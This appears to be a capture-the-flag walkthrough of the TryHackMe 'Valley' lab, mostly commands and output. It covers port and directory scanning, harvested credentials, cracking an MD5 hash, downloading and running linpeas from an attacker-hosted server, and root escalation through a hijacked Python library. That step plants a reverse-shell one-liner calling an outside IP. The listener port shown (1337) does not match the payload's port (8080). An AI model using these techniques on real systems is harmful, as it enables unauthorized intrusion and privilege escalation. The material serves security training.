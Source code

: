 https://tryhackme.com/room/valleype
>IP:10.10.156.47

# RECON
>nmap -p- 10.10.156.47 -T5 -vv
```
22/tcp    open  ssh     syn-ack ttl 63
80/tcp    open  http    syn-ack ttl 63
37370/tcp open  unknown syn-ack ttl 63
```

>sudo nmap -sC -sV -Pn 10.10.156.47 -p80,22,37370
```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:84:2a:c1:22:5a:10:f1:66:16:dd:a0:f6:04:62:95 (RSA)
|   256 42:9e:2f:f6:3e:5a:db:51:99:62:71:c4:8c:22:3e:bb (ECDSA)
|_  256 2e:a0:a5:6c:d9:83:e0:01:6c:b9:8a:60:9b:63:86:72 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
37370/tcp open  ftp     vsftpd 3.0.3
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel
```

http://10.10.156.47/pricing/note.txt
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427083729.png)

ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt:FFUZ -u http://10.10.156.47/FFUZ -ic -c

![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427084201.png)

```
sudo bash -c  'echo "10.10.156.47    valley.thm" > /etc/hosts'
```

```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt:FUZZ -u http://valley.thm/ -H 'Host: FUZZ.valley.thm' -fs 1163
```

ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -u http://valley.thm/static/FFUZ -ic -c -e txt,php

![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427090220.png)
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427090234.png)
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427090516.png)
>Обработка данных на стороне клиента 
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427090634.png)
```
siemDev:california
```
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427090831.png)

```
get siemFTP.pcapng
get siemHTTP1.pcapng
get siemHTTP2.pcapng
```

```
anonymous:anonymous
```
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427091229.png)

![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427092411.png)

>siemHTTP2.pcapng

![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427092639.png)

```
valleyDev:ph0t0s1234
```

>ssh valleyDev@10.10.156.47   

# LPE
## Flag1
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427092927.png)

Linpeas
```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

```
python3 -m http.server 80
wget http://10.11.134.170/linpeas.sh && chmod +x linpeas.sh  && ./linpeas.sh 
```

==Vulnerable to CVE-2021-3560==
```
root:x:0:0:root:/root:/bin/bash                                                    siemDev:x:1001:1001::/home/siemDev/ftp:/bin/sh
valleyDev:x:1002:1002::/home/valleyDev:/bin/bash
valley:x:1000:1000:,,,:/home/valley:/bin/bash
```
photos/script/photosEncrypt.py 

![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427094104.png)

```
scp valleyDev@10.10.156.47:/home/valleyAuthenticator /tmp 
```

```
strings valleyAuthenticator
```
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427101205.png)

```
hashcat -m 0 "e6722920bab2326f8217e4bf6b1b58ac" /usr/share/wordlists/rockyou.txt
```
>e6722920bab2326f8217e4bf6b1b58ac:liberty123    
```
uid=1000(valley) gid=1000(valley) groups=1000(valley),1003(valleyAdmin)
```

```
valleyDev@valley:/home$ ls -la /photos/script/photosEncrypt.py 
-rwxr-xr-x 1 root root 621 Mar  6  2023 /photos/script/photosEncrypt.py


valleyDev@valley:/home$ cat /photos/script/photosEncrypt.py 

#!/usr/bin/python3
import base64
for i in range(1,7):
# specify the path to the image file you want to encode
        image_path = "/photos/p" + str(i) + ".jpg"

# open the image file and read its contents
        with open(image_path, "rb") as image_file:
          image_data = image_file.read()

# encode the image data in Base64 format
        encoded_image_data = base64.b64encode(image_data)

# specify the path to the output file
        output_path = "/photos/photoVault/p" + str(i) + ".enc"

# write the Base64-encoded image data to the output file
        with open(output_path, "wb") as output_file:
          output_file.write(encoded_image_data)

```

-rwxrwxr-x 1 root valleyAdmin 20382 Mar 13  2023 /usr/lib/python3.8/base64.py

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14.77",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

```
nc -lnvp 1337
```

![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427103329.png)
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427103429.png)